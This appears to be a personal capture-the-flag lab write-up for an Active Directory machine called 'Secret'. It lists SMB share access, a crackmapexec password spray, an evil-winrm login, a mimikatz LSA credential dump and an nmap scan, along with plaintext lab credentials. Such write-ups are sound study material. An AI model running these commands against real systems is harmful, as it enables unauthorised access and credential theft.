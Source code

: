```yaml
---
tags: [AD, Beginner, Video]
title: Secret
created: '2020-07-05T13:25:09.540Z'
modified: '2020-10-02T17:41:11.932Z'
---
```


# Secret
- IP: `172.31.1.4`
- OS: `Active Directory`
## Enumeration
### Writeup
`mount -t cifs -o username=anything,password= //172.31.1.4/Office_Share /mnt/Office_Share`
In the share we find this default password: `SecretOrg!`
`crackmapexec smb 172.31.1.4 -u formatted_name_wordlist.txt -p 'SecretOrg!' --shares`
`evil-winrm -i 172.31.1.4 -u jcakes -p 'SecretOrg!'`

Auto-logon credentials: `vF4$x9#z:-eT~Fy`

`./mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.4`
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
